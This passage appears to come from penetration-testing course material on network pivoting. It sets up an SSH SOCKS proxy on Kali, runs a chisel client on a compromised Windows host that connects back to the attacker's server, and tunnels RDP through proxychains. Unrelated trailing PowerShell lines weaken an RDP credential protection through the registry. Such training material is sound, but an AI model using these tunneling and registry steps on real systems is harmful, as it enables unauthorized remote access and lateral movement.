 ```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config

kali@kali:~$ sudo systemctl start ssh.service

kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:wO34ll4r18sNzXmfmg/H8uLHz97twv0ovhWuFXXxQkE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
kali@localhost's password: 
```

> Listing 17 - Using SSH as a SOCKS proxy

Now that the Kali server is configured, we'll shift our focus to the chisel client on the Windows 10 target.

First, we'll transfer the compiled Windows version of chisel to the Windows 10 client machine through the existing reverse shell. After transferring the file, we can run it as a client, providing the IP address and port of the server instance of chisel and the socks option:

```
C:\Tools> chisel.exe client 192.168.119.120:8080 socks
2020/05/12 14:03:52 client: Connecting to ws://192.168.119.120:8080
2020/05/12 14:03:52 client: proxy#1:127.0.0.1:1080=>socks: Listening
2020/05/12 14:03:52 client: Fingerprint c9:c4:c0:20:57:ff:6f:43:04:d8:3d:c1:a4:2f:31:39
2020/05/12 14:03:53 client: Connected (Latency 117.193ms)
```

> Listing 18 - Starting chisel as client

As highlighted in the last line of Listing 18, chisel established a connection to our server instance.

Finally, with the tunnel created we can open a RDP session to the Windows 10 client with proxychains:

```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10 
ProxyChains-3.1 (http://proxychains.sf.net)
Autoselecting keyboard map 'en-us' from locale
|S-chain|-<>-127.0.0.1:1080-<><>-192.168.120.10:3389-<><>-OK
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
|S-chain|-<>-127.0.0.1:1080-<><>-192.168.120.10:3389-<><>-OK
```

> Listing 19 - RDP session is tunneled with chisel

Setting up a reverse tunnel is a lot more work than simply using a built-in feature but it's still possible and through it, we can obtain GUI access with RDP in a way that is otherwise not meant to be possible.

We can also use chisel with the classic reverse SSH tunnel syntax by specifying the -reverse option instead of --socks5 on the server side.[7](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5381-7)


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit